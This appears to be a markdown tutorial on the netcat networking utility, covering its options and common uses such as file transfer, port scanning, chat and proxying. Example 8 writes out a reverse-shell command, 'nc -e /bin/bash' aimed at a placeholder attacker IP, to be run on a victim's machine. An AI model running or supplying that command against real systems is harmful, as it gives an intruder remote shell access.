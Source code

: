 ## netcat command
The `netcat` (or `nc`) command is a versatile networking utility used for reading from and writing to network connections using TCP or UDP. It is often referred to as the "Swiss Army knife" of networking tools because of its wide range of functionalities. Below is a detailed guide on how to use `netcat`.

---

## Basic Syntax
```bash
nc [options] [host] [port]
```

---

## Common Options
- `-l` or `--listen`: Listen for incoming connections (used to create a server).
- `-p` or `--source-port`: Specify the source port to use.
- `-u` or `--udp`: Use UDP instead of TCP (default is TCP).
- `-v` or `--verbose`: Provide detailed output.
- `-z` or `--zero`: Scan for open ports without sending data.
- `-w` or `--wait`: Set a timeout for connections.
- `-e` or `--exec`: Execute a command after connecting (often used for reverse shells).
- `-k` or `--keep-open`: Keep the connection open after the client disconnects (used with `-l`).

---

## Common Use Cases and Examples

### 1. **Connect to a Remote Server**
   ```bash
   nc example.com 80
   ```
   This connects to `example.com` on port 80. You can then manually send HTTP requests (e.g., `GET / HTTP/1.1`).

---

### 2. **Create a Simple TCP Server**
   ```bash
   nc -l -p 1234
   ```
   This listens on port `1234` for incoming TCP connections. Clients can connect to this port and send/receive data.

---

### 3. **Create a Simple UDP Server**
   ```bash
   nc -u -l -p 1234
   ```
   This listens on port `1234` for incoming UDP connections.

---

### 4. **Send a File Over a Network**
   On the receiving end (server):
   ```bash
   nc -l -p 1234 > received_file.txt
   ```
   On the sending end (client):
   ```bash
   nc example.com 1234 < file_to_send.txt
   ```

---

### 5. **Receive a File Over a Network**
   On the receiving end (server):
   ```bash
   nc -l -p 1234 > received_file.txt
   ```
   On the sending end (client):
   ```bash
   nc example.com 1234 < file_to_send.txt
   ```

---

### 6. **Port Scanning**
   ```bash
   nc -zv example.com 20-30
   ```
   This scans ports 20 to 30 on `example.com` to check which ones are open.

---

### 7. **Chat Between Two Machines**
   On the first machine (server):
   ```bash
   nc -l -p 1234
   ```
   On the second machine (client):
   ```bash
   nc example.com 1234
   ```
   You can now type messages back and forth between the two machines.

---

### 8. **Reverse Shell**
   On the attacker's machine (listening):
   ```bash
   nc -l -p 1234
   ```
   On the victim's machine (connecting back):
   ```bash
   nc -e /bin/bash attacker_ip 1234
   ```
   This gives the attacker a shell on the victim's machine.

---

### 9. **Test if a Port is Open**
   ```bash
   nc -zv example.com 80
   ```
   This checks if port 80 on `example.com` is open.

---

### 10. **Proxy Traffic**
   ```bash
   nc -l -p 1234 | nc example.com 80
   ```
   This listens on port `1234` and forwards all incoming traffic to `example.com` on port 80.

---

## Advanced Usage
- **Banner Grabbing**: Use `nc` to grab service banners (e.g., HTTP, SSH).
  ```bash
  echo "GET / HTTP/1.1" | nc example.com 80
  ```

- **Tunneling Traffic**: Use `nc` to tunnel traffic through a proxy or firewall.

- **Debugging Network Services**: Use `nc` to manually interact with network services (e.g., SMTP, FTP).

---